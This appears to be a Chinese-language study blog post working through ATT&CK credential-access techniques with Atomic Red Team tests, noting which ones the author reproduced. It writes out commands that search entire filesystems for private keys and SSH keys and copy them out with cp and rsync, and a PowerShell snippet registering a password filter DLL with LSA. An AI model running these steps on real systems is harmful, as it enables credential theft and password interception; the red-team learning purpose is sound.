 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之credential-access
excerpt: "跟着ATT&CK学安全之credential-access"
categories: [ATT&CK]
comments: true
---
```

#### T1145 - Private Keys
私钥和证书可以进行权限验证,加解密进行数字签名.攻击者可用这些进行权限维持或者解密文件.通常密钥和证书的后缀是`.key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. `

私钥一般需要密码和口令来操作,所以红队可以使用工具进行键盘记录或者爆破密码
###### 测试1 Private Keys
在windows中查找`.key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc`后缀的文件名
```
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```
win10成功复现
###### 测试2 Discover Private SSH Keys
在linux中查找ssh私钥
```
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```
成功复现
###### 测试3 Copy Private SSH Keys with CP
```
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```
成功复现
###### 测试4 Copy Private SSH Keys with rsync
```
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```
成功复现
### T1174 - Password Filter DLL
Windows password filters对于本地和域账户来说都是一种密码校验的机制,Filters使用dll作为接口,来进行密码规则的校验.Filter Dll在本地电脑对本地账户或者域控管理者进行校验.

在使用Security Accounts Manager注册新的密码之前, Local Security Authority向registered filter请求验证,当验证通过才能进行密码修改

红队可以注册一个有害的password filters来危害本地电脑或者真个域控
###### 测试1 Install and Register Password Filter DLL
使用powershell来安装注册password filter DLL,同时需要administrative权限和重启
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```
**项目中缺少文件,没有复现**
### T1040 - Network Sniffing
这个没什么说的,就是抓流量